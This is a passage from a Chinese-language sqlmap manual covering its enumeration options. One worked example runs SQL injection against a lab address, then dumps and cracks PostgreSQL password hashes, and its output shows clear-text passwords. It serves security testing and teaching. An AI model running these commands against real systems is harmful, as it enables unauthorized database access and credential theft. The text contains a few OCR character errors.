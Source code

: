 当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。

### 列出并破解数据库用户的hash

参数：--passwords

当前用户有权限读取包含用户密码的彪的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```

可以看到sqlmap不仅勒出数据库的用户跟密码，同时也识别出是PostgreSQL数据库，并询问用户是否采用字典爆破的方式进行破解，这个爆破已经支持Oracle和Microsoft SQL Server。

也可以提供-U参数来指定爆破哪个用户的hash。

### 列出数据库管理员权限

参数：--privileges

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap将会告诉你哪个是数据库的超级管理员。也可以用-U参数指定你想看哪个用户的权限。

### 列出数据库管理员角色

参数：--roles

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U参数指定你想看哪个用户的角色。

仅适用于当前数据库是Oracle的时候。

### 列出数据库系统的数据库

参数：--dbs

当前用户有权限读取包含所有数据库列表信息的表中的时候，即可列出所有的数据库。
